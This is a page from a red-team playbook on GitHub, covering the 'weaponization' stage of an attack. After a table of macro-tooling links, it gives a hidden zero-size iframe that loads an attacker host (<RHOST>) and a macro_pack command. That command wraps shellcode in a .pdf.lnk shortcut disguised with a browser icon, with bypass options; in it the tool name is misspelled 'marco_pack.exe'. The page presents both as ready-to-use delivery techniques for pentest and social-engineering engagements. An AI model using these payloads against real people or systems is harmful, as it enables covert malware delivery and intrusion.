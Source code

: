# 2 Weaponization

## Table of Contents

- [Tooling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#Tooling)
- [Malicious iFrame](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#Malicious-iFrame)
- [macro_pack](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#macro_pack)

## Tooling

| Name | Description | URL |
| --- | --- | --- |
| spoofing-office-macro | PoC of a VBA macro spawning a process with a spoofed parent and command line. | https://github.com/christophetd/spoofing-office-macro |
| macro_pack | macro_pack is a tool by @EmericNasi used to automatize obfuscation and generation of Office documents, VB scripts, shortcuts, and other formats for pentest, demo, and social engineering assessments. | https://github.com/sevagas/macro_pack |

## Malicious iFrame

```c
<iframe src="<RHOST>" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none"></iframe>
```

## macro_pack

```c
PS C:\macro_pack_pro> echo .\<FILE>.bin | marco_pack.exe -t SHELLCODE -G .\<FILE>.pdf.lnk --icon='C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13' --hta-macro --bypass
```

### Previous

- [1 Reconnaissance](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1-Reconnaissance.md)
- [1.1 Scanning and Enumeration](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1.1-Scanning-and-Enumeration.md)

### Next

- [2.1 Initial Access](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2.1-Initial-Access.md)
